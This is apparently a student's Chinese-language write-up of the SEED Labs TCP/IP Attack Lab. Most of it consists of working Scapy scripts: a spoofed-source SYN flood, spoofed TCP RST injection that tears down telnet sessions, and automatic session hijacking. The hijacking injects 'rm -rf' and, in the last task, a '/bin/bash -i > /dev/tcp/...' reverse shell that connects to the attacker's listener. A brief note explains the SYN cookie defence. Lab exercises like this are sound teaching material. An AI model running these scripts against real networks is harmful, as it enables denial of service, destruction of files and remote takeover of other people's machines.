 ```yaml
---
title: SeedLab ex3 TCP/IP Attack Lab
date: 2023-12-22
categories:
 - 网络安全
cover: /images/covers/grid.png
---
```


## Task1: SYNFlooding Attack

###  Task 1.1: Launching the Attack Using Python

pyhton syn flood 代码

```python
#!/bin/env python3
from scapy.all import IP, TCP, send
from ipaddress import IPv4Address
from random import getrandbits
ip = IP(dst="10.9.0.5") # victim ip
tcp = TCP(dport=23, flags="S")# telnet port
pkt = ip/tcp
while True:
	pkt[IP].src = str(IPv4Address(getrandbits(32))) # source iP
	pkt[TCP].sport = getrandbits(16) # source port
	pkt[TCP].seq = getrandbits(32) # sequence number
	send(pkt, verbose = 0)
```

先运行1分钟，在telnet victim，大概会出错，再排查问题

1. TCP cache 清空
2. 多开synflood.py


### Task 1.2: Launch the Attack Using C

1. 编译
2. 清空缓存
3. 执行

###  Task 1.3: Enable the SYN Cookie Countermeasure

Please enable the SYN cookie mechanism, and run your attacks again, and compare the results

启用SYN Cookie机制后，服务器会在接收到TCP连接请求时，不立即分配资源和建立连接，而是生成一个特殊的cookie值发送给客户端。只有在客户端回应时，服务器才验证这个cookie值，如果验证通过，才正式建立连接。这样做的好处是，服务器无需在收到SYN包时立即分配资源，而是将部分连接状态保存在cookie中，从而能够有效抵御SYN洪水攻击。

## Task2: TCP RST Attacks on telnet Connections

服务器向客户端发送rst tcp包，找到服务器发给客户端的报文最新得报文

user1 telnet victim

```python
#!/usr/bin/env python3
from scapy.all import *
ip = IP(src="10.9.0.5", dst="10.9.0.6")
tcp = TCP(sport=23, dport=43378, flags="R", seq=2402526666)
pkt = ip/tcp
ls(pkt)
send(pkt, verbose=0)

```
auto

```python
#!/usr/bin/env python3
from scapy.all import *


def rst_attack(packet):
    if packet.haslayer(IP) and packet.haslayer(TCP):
        if packet[TCP].dport == 23:  # 检查是否是telnet
            print(
                f"telnet from {packet[IP].src} to {packet[IP].dst}")

            # 伪造 从服务器向客户端发送的rst
            ip = IP(src=packet[IP].dst, dst=packet[IP].src)
            tcp = TCP(
                sport=packet[TCP].dport, dport=packet[TCP].sport, flags="R", seq=packet[TCP].ack)  # 客户端向服务器发送的ack 为服务端向客服端发送的seq
            rst_packet = ip / tcp
            send(rst_packet, verbose=0)
            print("TCP RST packet sent")


iface = "br-9539db83f0ea"
sniff(iface=iface, prn=rst_attack, store=0)

```

## Task3: TCP Session Hijacking

manual，手动会话劫持，wireshark看最后的包信息，获取seq ack port，执行后光标会动不了，原因是seq和ack乱了好像
```python
#!/usr/bin/env python3
from scapy.all import *
ip = IP(src="10.9.0.6", dst="10.9.0.5")
tcp = TCP(sport=56952, dport=23, flags="A", seq=1006118204, ack=1285162686)
data = "rm -rf new.txt\r"
pkt = ip/tcp/data
ls(pkt)
send(pkt, verbose=0)

```


auto，选作
```python
#!/usr/bin/env python3
from scapy.all import *
import re
is_login = False


def hijack_attack(packet):
    global is_login
    if packet.haslayer(IP) and packet.haslayer(TCP):
        # 判断是否登陆成功
        if packet.haslayer(Raw):
            tcp_data = packet[TCP].load.decode(
                'utf-8', errors='ignore')  # 将二进制数据解码为字符串
            match = re.search(r'seed@76dac64f26d2', tcp_data) # 判断是否登录
            if match:
                is_login = True

        if packet[TCP].dport == 23 and is_login == True:  # 检查是否是telnet 是否登录
            print(
                f"telnet from {packet[IP].src} to {packet[IP].dst}")
            # 劫持绘画
            ip = IP(src=packet[IP].src, dst=packet[IP].dst)
            tcp = TCP(
                sport=packet[TCP].sport, dport=packet[TCP].dport, flags="A", seq=packet[TCP].seq, ack=packet[TCP].ack)  # 客户端向服务器发送的ack 为服务端向客服端发送的seq
            data = "rm -rf new.txt\r"

            hijack_packet = ip / tcp / data

            send(hijack_packet, verbose=0)
            print("Hijack packet sent")
            exit(0)


iface = "br-9539db83f0ea"
sniff(iface=iface, prn=hijack_attack, store=0)

```

## Task4: Creating Reverse Shell using TCP Session Hijacking

执行指令nc -lnv 9090，在本地（-l）以监听模式启动 netcat 工具，监听在9090端口上，并输出详细信息。运行自动劫持的代码，在telnet连接后，会自动执行 “/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1\r”命令。创建一个反向shell 映射到10.9.0.1的9090端口输入从tcp连接获取，错误输出重定向到tcp连接。

```python
#!/usr/bin/env python3
from scapy.all import *
import re
is_login = False

def hijack_attack(packet):
    global is_login
    if packet.haslayer(IP) and packet.haslayer(TCP):
        # 判断是否登陆成功
        if packet.haslayer(Raw):
            tcp_data = packet[TCP].load.decode(
                'utf-8', errors='ignore')  # 将二进制数据解码为字符串
            match = re.search(r'seed@76dac64f26d2', tcp_data)
            if match:
                is_login = True

        if packet[TCP].dport == 23 and is_login == True:  # 检查是否是telnet 是否d登录
            print(
                f"telnet from {packet[IP].src} to {packet[IP].dst}")
            # 劫持绘画
            ip = IP(src=packet[IP].src, dst=packet[IP].dst)
            tcp = TCP(
                sport=packet[TCP].sport, dport=packet[TCP].dport, flags="A", seq=packet[TCP].seq, ack=packet[TCP].ack)  # 客户端向服务器发送的ack 为服务端向客服端发送的seq
            # data = "rm -rf new.txt\r"
            data = "/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1\r"
            hijack_packet = ip / tcp / data

            send(hijack_packet, verbose=0)
            print("Hijack packet sent")
            exit(0)

iface = "br-9539db83f0ea"
sniff(iface=iface, prn=hijack_attack, store=0)

```
